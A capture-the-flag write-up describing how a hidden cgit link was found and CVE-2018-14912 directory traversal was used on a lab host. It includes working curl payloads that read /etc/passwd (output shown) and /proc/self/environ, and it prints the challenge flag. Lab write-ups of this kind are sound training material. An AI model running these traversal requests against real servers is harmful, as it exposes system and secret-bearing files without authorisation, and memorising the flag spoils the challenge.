 # Chapter 1: Travel

## Challenge

Hi, TCC-CSIRT analyst,

Do you know the feeling when, after a demanding shift, you fall into lucid dreaming and even in your sleep, you encounter tricky problems? Help a colleague solve tasks in the complex and interconnected world of LORE, where it is challenging to distinguish reality from fantasy.

The entry point to LORE is at http://intro.lore.tcc.

See you in the next incident!

Hint: Be sure you enter the flag for the correct chapter.

## Solution

### 1. Entry Point Discovery

The site for Chapter 1 is located at: http://cgit.lore.tcc/.

Upon inspecting the source code of the site, we found the following commented-out HTML:

```html
<!--
    <p>Manage and browse your source code repositories with CGIT.</p>
    <a href="/cgit.cgi" class="button">Go to Repositories</a>
-->
```

So, we navigated to http://cgit.lore.tcc/cgit.cgi and found two repositories available:

- `foo` – almost empty, with nothing useful.
- `sam-operator` – containing source code for the Chapter 4 challenge.

### 2. Exploiting a Vulnerability in CGIT

After checking for known vulnerabilities in CGIT, we discovered `CVE-2018-14912`, which allows for directory traversal if `enable-http-clone=1` is enabled: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-14912

This vulnerability can be exploited using the path traversal technique by appending `?path=../` to the URL, allowing access to sensitive files.

We tested this with the following command to check for Local File Inclusion (LFI):

```bash
curl http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../etc/passwd                                                                                                                                  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

Success! The response revealed the contents of `/etc/passwd`, confirming that the vulnerability was present.

### 3. Extracting the Flag from Environment Variables

Since flags are often hidden in environment variables, we decided to check the `/proc/self/environ` file:

```bash
curl -o - http://cgit.lore.tcc/cgit.cgi/foo/objects/?path=../../../../../proc/self/environ
```

## Flag

```
FLAG{FiqE-rPQL-pUV4-daQt}
```
